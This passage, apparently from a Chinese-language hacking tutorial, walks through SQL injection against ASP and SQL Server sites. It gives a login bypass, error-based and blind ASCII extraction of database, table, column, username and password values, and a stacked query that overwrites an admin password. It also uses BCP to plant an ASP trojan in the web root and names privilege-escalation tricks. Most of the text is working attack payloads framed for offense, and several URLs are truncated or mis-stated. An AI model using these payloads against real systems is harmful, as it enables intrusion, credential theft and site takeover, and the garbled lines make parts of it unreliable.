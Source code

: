 select * from admin where username='abc’ or 1=1 and password='123’ 不管用户输入任何用户名与密码，此语句永远都能正确执行，用户轻易骗过系统，获取合法身份。
B、猜解法：
基本思路是：猜解所有数据库名称，猜出库中的每张表名，分析可能是存放用户名与密码的表名，猜出表中的每个字段名，猜出表中的每条记录内容。
猜解所有数据库名称
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select count(*) from master.dbo.sysdatabases where name>1 and dbid=6) <>0 因为 dbid 的值从1到5，是系统用了。所以用户自己建的一定是从6开始的。并且我们提交了 name>1 (name字段是一个字符型的字段和数字比较会出错),abc.asp工作异常，可得到第一个数据库名，同理把DBID分别改成7,8，9,10,11,12…就可得到所有数据库名。
以下假设得到的数据库名是TestDB。
猜解数据库中用户名表的名称
猜解法：此方法就是根据个人的经验猜表名，一般来说，user,users,member,members,userlist,memberlist,userinfo,manager,admin,adminuser,systemuser,systemusers,sysuser,sysusers,sysaccounts,systemaccounts等。并通过语句进行判断
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select count(*) from TestDB.dbo.表名)>0 若表名存在，则abc.asp工作正常，否则异常。如此循环，直到猜到系统帐号表的名称。
读取法：SQL-SERVER有一个存放系统核心信息的表sysobjects，有关一个库的所有表，视图等信息全部存放在此表中，而且此表可以通过WEB进行访问。
当xtype='U' and status>0代表是用户建立的表，发现并分析每一个用户建立的表及名称，便可以得到用户名表的名称，基本的实现方法是：
①HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top 1 name from TestD ... type='U' and status>0 )>0 得到第一个用户建立表的名称，并与整数进行比较，显然abc.asp工作异常，但在异常中却可以发现表的名称。假设发现的表名是xyz，则
②HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top 1 name from TestDB.dbo.sysobjects& ... tatus>0 and name not in('xyz'))>0 可以得到第二个用户建立的表的名称，同理就可得到所有用建立的表的名称。
根据表的名称，一般可以认定那张表用户存放用户名及密码，以下假设此表名为Admin。
l 猜解用户名字段及密码字段名称
admin表中一定有一个用户名字段，也一定有一个密码字段，只有得到此两个字段的名称，才有可能得到此两字段的内容。如何得到它们的名称呢，同样有以下两种方法。
猜解法：此方法就是根据个人的经验猜字段名，一般来说，用户名字段的名称常用：username,name,user,account等。而密码字段的名称常用：password,pass,pwd,passwd等。并通过语句进行判断
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select count(字段名) from TestDB.dbo.admin)>0 “select count(字段名) from 表名”语句得到表的行数，所以若字段名存在，则abc.asp工作正常，否则异常。如此循环，直到猜到两个字段的名称。
读取法：基本的实现方法是
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select ... me(object_id('admin'),1) from TestDB.dbo.sysobjects)>0 。select top 1 col_name(object_id('admin'),1) from TestDB.dbo.sysobjects是从sysobjects得到已知表名的第一个字段名，当与整数进行比较，显然abc.asp工作异常，但在异常中却可以发现字段的名称。把col_name(object_id('admin'),1)中的1依次换成2,3,4,5，6…就可得到所有的字段名称。
l 猜解用户名与密码
猜用户名与密码的内容最常用也是最有效的方法有：
ASCII码逐字解码法:虽然这种方法速度较慢，但肯定是可行的。基本的思路是先猜出字段的长度，然后依次猜出每一位的值。猜用户名与猜密码的方法相同，以下以猜用户名为例说明其过程。
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top&n ... nbsp;from TestDB.dbo.admin)=X(X=1,2，3,4，5，… n，username为用户名字段的名称，admin为表的名称)，若x为某一值i且abc.asp运行正常时，则i就是第一个用户名的长度。如：当输入
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top ... e) from TestDB.dbo.admin)=8时abc.asp运行正常，则第一个用户名的长度为8
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (sel ... ascii(substring(username,m,1)) from TestDB.dbo.admin)=n (m的值在1到上一步得到的用户名长度之间，当m=1，2,3，…时猜测分别猜测第1,2,3,…位的值；n的值是1~9、a~z、A~Z的ASCII值，也就是1~128之间的任意值；admin为系统用户帐号表的名称)，若n为某一值i且abc.asp运行正常时，则i对应ASCII码就是用户名某一位值。如：当输入
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (sel ... ascii(substring(username,3,1)) from TestDB.dbo.admin)=80时abc.asp运行正常，则用户名的第三位为P(P的ASCII为80)；
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (sel ... ascii(substring(username,9,1)) from TestDB.dbo.admin)=33时abc.asp运行正常，则用户名的第9位为!(!的ASCII为80)；
猜到第一个用户名及密码后，同理，可以猜出其他所有用户名与密码。注意：有时得到的密码可能是经MD5等方式加密后的信息，还需要用专用工具进行脱密。或者先改其密码，使用完后再改回来，见下面说明。
简单法：猜用户名用
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top 1 ... o.admin where username>1) , flag是admin表中的一个字段，username是用户名字段，此时abc.asp工作异常，但能得到Username的值。与上同样的方法，可以得到第二用户名，第三个用户等等，直到表中的所有用户名。
猜用户密码：HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top 1&nb ... B.dbo.admin where pwd>1) , flag是admin表中的一个字段，pwd是密码字段，此时abc.asp工作异常，但能得到pwd的值。与上同样的方法，可以得到第二用户名的密码，第三个用户的密码等等，直到表中的所有用户的密码。密码有时是经MD5加密的，可以改密码。
HTTP://xxx.xxx.xxx/abc.asp?p=YY;update TestDB.dbo.admin set pwd=' ... where username='www';-- ( 1的MD5值为：AAABBBCCCDDDEEEF，即把密码改成1；www为已知的用户名)
用同样的方法当然可把密码改原来的值。
2、利用表内容导成文件功能
SQL有BCP命令，它可以把表的内容导成文本文件并放到指定位置。利用这项功能，我们可以先建一张临时表，然后在表中一行一行地输入一个ASP木马，然后用BCP命令导出形成ASP文件。
命令行格式如下：
bcp "select * from text..foo" queryout c:\inetpub\wwwroot\runcommand.asp –c –S localhost –U sa –P foobar ('S'参数为执行查询的服务器，'U'参数为用户名，'P'参数为密码，最终上传了一个runcommand.asp的木马)
六、得到系统的管理员权限
ASP木马只有USER权限，要想获取对系统的完全控制，还要有系统的管理员权限。怎么办？提升权限的方法有很多种：
上传木马，修改开机自动运行的.ini文件(它一重启，便死定了)；
复制CMD.exe到scripts，人为制造UNICODE漏洞；